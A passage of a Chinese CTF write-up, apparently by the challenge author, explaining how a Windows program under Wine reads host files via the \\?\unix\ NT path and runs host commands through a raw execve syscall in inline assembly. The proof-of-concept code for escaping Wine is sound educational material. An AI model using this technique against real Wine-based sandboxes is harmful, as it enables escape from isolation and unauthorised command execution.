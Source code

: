 所以上面的程序修改为：

```c
FILE *f = fopen("\\\\?\\unix\\flag1", "r");
```

就可以了。这个路径语法是 Windows NT 系列系统的内部路径表示格式，例如在 Windows 下我们常用的这个路径格式：

```
C:\Windows\explorer.exe
```

它的等价路径是：

```
\\?\C:\Windows\explorer.exe
```

很显然，wine 自己做了一些特别的处理来方便程序访问 Linux 的文件（否则会出现类似于删掉磁盘映射之后 wine 运行的 Windows 程序无法访问到 Linux 的字体的情况）。只是这样的隐藏接口，也可以被我们利用，实现出乎意料的事情。

### 任意命令执行

有两种思路：一种是找专门启动程序的有关库函数，然后用 NT Path 作为参数去调用（我了解到的有关题解有使用 `_spawnvp()` 的）；另一种方法，也是我最开始出题的时候想到的办法，下面会详细介绍。

还记得之前说过，wine 在用户层解决了 Windows 程序使用系统调用的问题吗？那么，**如果我在 Windows 程序里面调用 Linux 的系统调用（直接 `syscall`），会发生什么？**

答案是：能够毫无阻碍地正常调用。（这一点也在 WineHQ Wiki 里面提到了）

因此我们写一个直接调用 `execve()` 的 PE 程序吧！当然，我们不想和 MinGW 以及 Windows 的 C 库扯上关系，所以这里用内联汇编。

```c
#include <stdio.h>

int main() {
    char *filename = "/readflag";
    printf("filename: %p\n", filename);
    __asm__ ("mov %0, %%rdi \n\t"     // filename
             "mov $0, %%rsi \n\t"     // argv (NULL)
             "mov $0, %%rdx \n\t"     // envp (NULL)
             "mov $59, %%rax \n\t"    // execve(2)
             "syscall"
             :: "m"(filename)
             : "%rax", "%rdi", "%rsi", "%rdx"
             );
    return 0;
}
```

x86_64 架构的 syscall table 可以在网络上搜索。如果在使用 x86_64 下的 Linux，也可以用[以下命令](https://unix.stackexchange.com/a/579639)得到：

```console
$ ausyscall --dump | grep execve
59      execve
322     execveat
```

编译得到的这个「Windows 程序」并无法在 Windows 上正确运行，但是这又有什么关系呢？PE 格式说到底只是个容器，里面可以放 Windows 程序，可以放 EFI 程序，当然在这里我们放的是专为 x86_64 Linux wine 定制的程序 :)

### 附注

写了这道题的 PoC 之后，我再也不敢直接裸跑 wine 了。

另外可能有人会尝试用 winegcc 编译 payload 到只有 wine 能运行的 ELF 程序，但是我的执行脚本会检查是不是 PE 格式的文件，所以这条路应该是不通的。
